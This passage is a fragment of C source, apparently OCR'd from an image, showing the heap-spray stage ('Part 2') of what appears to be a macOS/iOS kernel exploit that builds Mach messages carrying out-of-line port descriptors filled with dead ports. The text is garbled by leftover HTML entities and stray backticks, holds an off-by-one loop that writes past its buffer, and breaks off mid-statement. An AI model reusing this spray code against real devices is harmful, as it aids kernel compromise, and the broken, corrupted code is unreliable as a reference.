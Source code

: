 ```
    `}`
    // Part 2. Create Message Buffer (Spray)
    mach_port_t* use_ports = calloc(1024, sizeof(mach_port_t));
    for(int i = 0; i &lt;= 1024; i++)`{`
        use_ports[i] = MACH_PORT_DEAD;
    `}`
    /* Set MSG HEADER */
    send_msg.msg_head.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    send_msg.msg_head.msgh_size = sizeof(struct ool_send_msg) - 16;
    send_msg.msg_head.msgh_remote_port = MACH_PORT_NULL;
    send_msg.msg_head.msgh_local_port = MACH_PORT_NULL; // NULL SEND
    send_msg.msg_head.msgh_reserved = 0x00;
    send_msg.msg_head.msgh_id = 0x00;
    
    /* SET MSG BODY */
    send_msg.msg_body.msgh_descriptor_count = 1;
    
    /* SET MSG OOL PORT DESCRIPTOR */
    for(int i = 0; i&lt;=16; i++)`{` // appropriate ipc-send size  
        send_msg.msg_ool_ports[i].address&amp;
```
